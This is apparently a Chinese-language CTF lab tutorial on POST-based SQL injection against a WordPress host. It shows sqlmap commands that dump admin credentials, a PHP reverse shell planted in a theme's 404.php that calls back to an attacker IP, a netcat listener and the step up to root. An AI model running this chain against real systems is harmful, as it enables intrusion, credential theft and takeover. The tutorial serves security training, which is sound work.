# CTF夺旗全套视频教程-网络安全：P10：CTF夺旗-sql注入(post) 🚩

在本节课中，我们将学习CTF训练中的SQL注入攻击。我们将通过向POST参数注入恶意代码，最终获取目标主机的最高权限（root权限）。课程将涵盖从信息收集、漏洞探测、利用SQL注入获取凭证，到上传WebShell、获取反弹Shell并提权的完整流程。

---

## 什么是SQL注入？💉

上一节我们介绍了课程目标，本节中我们来看看SQL注入的核心概念。

SQL注入攻击是指攻击者构造特殊的输入作为参数，传入Web应用程序。通过执行这些恶意构造的SQL语句，攻击者可以执行其想要的操作。其主要原因是程序没有细致地过滤或过滤不严格用户输入的数据，致使非法数据侵入系统。

**核心公式**：
`恶意用户输入` + `未过滤的SQL查询` = `SQL注入漏洞`



其实，任何一个用户可以输入的位置都有可能成为注入点。例如，在URL中传递的参数，以及HTTP报文中POST传递的参数。

---

## 实验环境搭建 🖥️

在开始实战之前，我们需要了解本次实验所使用的环境。

*   **攻击机**：使用Kali Linux，IP地址为 `192.168.1.11`。
*   **靶机**：使用Ubuntu系统，IP地址为 `192.168.1.104`。

我们的目标是挖掘靶机上的漏洞，获得主机的最高权限（root权限），最终取得对应的flag值。

---

## 第一步：信息收集 🔍

拿到靶场IP地址后，首先要进行信息探测，目的是发现目标开放了哪些服务和潜在入口。

以下是信息收集的常用步骤：

1.  **探测开放端口**：使用 `nmap` 工具扫描靶机所有开放端口。
    ```bash
    nmap -T4 -p- 192.168.1.104
    ```
    *   `-T4`：使用最快的扫描速度。
    *   `-p-`：扫描所有端口（1-65535）。

2.  **详细系统探测**：使用 `nmap` 的 `-A` 参数进行更全面的探测。
    ```bash
    nmap -T4 -A -v 192.168.1.104
    ```
    *   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
    *   `-v`：输出详细过程。

3.  **Web目录与文件探测**：针对扫描出的Web服务（如80、8080端口），使用工具探测敏感目录和文件。
    *   使用 `nikto` 扫描Web漏洞和敏感信息：
        ```bash
        nikto -host http://192.168.1.104
        ```
    *   使用 `dirb` 进行目录暴力破解：
        ```bash
        dirb http://192.168.1.104
        ```
    *   如果Web服务不是默认的80端口（例如8080），需要在命令中指定端口：
        ```bash
        dirb http://192.168.1.104:8080
        ```

通过信息收集，我们可能发现：
*   开放了80端口的HTTP服务，并存在 `login.php` 登录页面。
*   开放了8080端口的HTTP服务，运行着一个 `WordPress` 网站。
*   存在 `phpMyAdmin` 数据库管理入口。





---



## 第二步：漏洞分析与探测 🕵️♂️





在收集到足够信息后，我们需要对其进行分析，并尝试寻找可利用的漏洞。



1.  **使用自动化扫描器**：可以使用 `OWASP ZAP` 或 `Burp Suite` 等工具对Web服务进行自动化漏洞扫描。但请注意，扫描器结果并非绝对准确，可能存在误报或漏报。
2.  **手动测试敏感点**：对于发现的登录页面（如 `login.php`），应手动测试是否存在弱口令或SQL注入漏洞。自动化扫描器可能无法发现所有问题。

---

## 第三步：利用SQL注入获取凭证 🔑

当我们怀疑 `login.php` 页面存在SQL注入时，可以进行手动验证和利用。





以下是利用 `sqlmap` 自动化注入的步骤：



1.  **捕获登录请求数据包**：使用代理工具（如Burp Suite）拦截浏览器向 `login.php` 提交的登录请求，并将请求内容保存为文件（如 `request.txt`）。
2.  **使用sqlmap进行注入**：在终端中运行 `sqlmap` 命令，指定捕获的数据包文件进行测试。
    ```bash
    sqlmap -r request.txt --level=3 --risk=3 --dbs --dbms=mysql --batch
    ```
    *   `-r request.txt`：从文件加载HTTP请求。
    *   `--level=3 --risk=3`：使用较高的测试等级和风险等级。
    *   `--dbs`：枚举数据库。
    *   `--dbms=mysql`：指定数据库类型为MySQL，加速检测。
    *   `--batch`：使用默认选项，无需人工干预。
3.  **提取数据**：成功注入后，可以逐步提取数据库名、表名、字段名和具体数据（如用户名和密码）。
    *   枚举指定数据库的所有表：
        ```bash
        sqlmap -r request.txt -D database_name --tables
        ```
    *   枚举指定表的所有字段：
        ```bash
        sqlmap -r request.txt -D database_name -T table_name --columns
        ```
    *   提取字段中的数据：
        ```bash
        sqlmap -r request.txt -D database_name -T table_name -C “username,password” --dump
        ```


在本案例中，通过注入，我们成功从 `wordpress` 数据库的 `users` 表中获取到了管理员用户名和密码哈希值。



---



## 第四步：登录后台与上传WebShell 🐚

获取到凭证后，下一步就是利用这些凭证访问系统。

1.  **登录WordPress后台**：访问 `http://靶机IP:8080/wp-login.php`，使用注入得到的用户名和密码登录。如果密码是哈希值，可能需要破解；本例中直接使用明文密码登录。
2.  **准备WebShell**：在Kali中，常用的WebShell位于 `/usr/share/webshells/` 目录。我们选择一个PHP反弹Shell（如 `php-reverse-shell.php`），并修改其中的IP和端口为攻击机的监听地址。
    ```php
    // 修改 php-reverse-shell.php 中的以下变量
    $ip = ‘192.168.1.11’; // 攻击机IP
    $port = 4444; // 攻击机监听端口
    ```
3.  **上传WebShell**：在WordPress后台，通过编辑主题文件（如 `404.php`）来植入WebShell代码。将主题模板文件的内容替换为我们准备好的PHP反弹Shell代码，然后更新文件。



---



## 第五步：获取反弹Shell与权限提升 ⬆️





WebShell上传成功后，我们需要触发它来建立与攻击机的连接。

1.  **在攻击机启动监听**：在终端使用 `netcat` 监听指定的端口。
    ```bash
    nc -nlvp 4444
    ```
    *   `-n`：直接使用IP地址，不进行DNS解析。
    *   `-l`：监听模式。
    *   `-v`：详细输出。
    *   `-p 4444`：指定监听端口。
2.  **访问WebShell**：在浏览器中访问上传了WebShell的页面（例如 `http://靶机IP:8080/wp-content/themes/twentythirteen/404.php`）。此时，攻击机的 `netcat` 终端会接收到一个反弹回来的Shell连接。
3.  **优化Shell交互**：初始反弹的Shell可能功能不全。可以使用Python生成一个更完善的TTY Shell。
    ```bash
    python -c “import pty; pty.spawn(‘/bin/bash’)”
    ```
4.  **提权至Root**：尝试切换到root用户。可以尝试空密码或使用之前获取到的用户密码。
    ```bash
    su -
    # 输入密码（本例中使用之前获取的密码）
    ```
    使用 `id` 命令确认权限，若 `uid=0` 则表明已获得root权限。
5.  **寻找Flag**：获得root权限后，即可在系统关键目录（如 `/root`、`/home`）下寻找最终的flag文件。

---

## 总结与注意事项 📝

本节课中，我们一起学习了完整的POST型SQL注入攻击链：

1.  **信息收集**：使用 `nmap`、`nikto`、`dirb` 等工具探测目标。
2.  **漏洞发现**：分析收集的信息，手动测试或使用工具扫描潜在漏洞点（如登录框）。
3.  **漏洞利用**：使用 `sqlmap` 对疑似注入点进行自动化注入，获取数据库敏感信息（如后台凭证）。
4.  **横向移动**：利用获取的凭证登录系统后台（如WordPress）。
5.  **建立立足点**：通过后台功能上传WebShell。
6.  **权限提升**：触发WebShell获取反弹Shell，并尝试提权至root。

**核心要点**：
*   任何用户输入点都可能存在注入漏洞，包括登录框、搜索框等。
*   自动化漏洞扫描器的结果仅供参考，**手工测试**至关重要。
*   整个攻击过程环环相扣，信息收集是成功的基础。
*   在实战或CTF比赛中，请务必在合法授权的环境中进行。


希望本教程能帮助你理解SQL注入的原理和基本利用方法。再见！